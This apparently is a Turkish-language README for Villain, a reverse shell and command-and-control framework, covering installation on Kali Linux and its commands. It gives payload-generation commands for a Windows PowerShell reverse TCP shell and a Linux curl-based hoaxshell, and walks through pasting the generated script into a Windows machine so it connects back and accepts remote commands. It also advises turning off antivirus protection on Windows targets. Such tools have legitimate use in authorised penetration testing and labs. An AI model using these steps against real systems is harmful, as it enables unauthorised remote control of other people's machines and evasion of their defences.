 ## KURULUM

**İki seçenek bulunmaktadır.**
1) Direkt Kali sisteminde apt komutu ile villain kurulumu:
`apt install villain`

2) Yeni güncellemeler anında gelmeyebilir bu yüzden sırasıyla şu komutları yazarak Villain'i kurun:
`git clone https://github.com/t3l3machus/Villain
cd ./Villain
pip3 install -r requirements.txt`

Bunuda kurmanız lazım:
`sudo apt update&&sudo apt install gnome-terminal`

Villian komutları:
- generate: Farklı payload türlerinde çalıştırılabilir scriptler üretir.
+ siblings: Daha önce connect edilmiş kardeş sunucuların bilgileri gösterilir.
* connect: Mevcut villain sunucusuna kardeş bağlar. Oturum yönetimi ortaklaşa bir duruma gelir.
- sessions: Aktif tüm reverse shell oturumlarını listeler.
+ backdoors: Sunucuya yerleştirilmiş backdoor tiplerinin tür statü gibi bilgileri tablo olarak gösterilir.
* sockets: villain tarafından dinlenen portlar listelenir.
- shell: Hedef sistemde komut çalıştırmayı doğrudan yapar.
+ cmdinspector: Şüpheli komut çalıştırma veya tespit önleme işlevlerini kontrol eder.

Windows için generate kodu = `generate lhost=eth0 payload=windows/reverse_tcp/powershell`
Linux için generate kodu = `generate lhost=eth0 payload=linux/hoaxshell/sh_curl`

Kardeş kullanımı için (birbirine bağlanan cihazlar birbirinin erişebildiği cihazlara erişebilir):
Villain kullanan bir cihazdan ip a s yazarak ip bilgisi alın ve 2.cihazda Villain çalıştırdıktan sonra connect <ip> komutu yazın. İstek ilk bilgisayara yollanıcak ve bir şifre girmeniz gerekicek. Onu yazdıktan sonra onay vermiş olcaksınız ve böylece bağlanma işlemi bitmiş olcak. Sonrasında ise siblings yazarak kardeş sistem bilgilerine erişebilirsiniz.

Örnek Kullanım:

Kali cihazda Villain çalıştırılır. Windows için yukardaki gibi bir generate kodu kullanılarak script oluşturulur. Oluşturulan scripti Windows cihazının powershell'ine yapıştırın ve böylece Windows cihazı Kali bilgisayarına bağlanıcaktır. `sessions` komutunu Kali cihazında yazarak erişilen Windows cihazı hakkındaki bilgileri görebilirsiniz (session id gibi). `Shell <session_id>` komutu ile Windows cihazına olan erişimi kullanarak komutlar çalıştırabiliriz. Mesela `cat "Hello" > deneme.txt` yazdığımız zaman Kali sistemimiz üzerinden Windows sisteminde deneme.txt dosyası oluşturmuş oluruz.

**Dikkat: Linux sistemlerinde herhangi bir problem yaşanmazken, Windows cihazlarda virüs tarzı korumaların kapatılması gerekmektedir!**
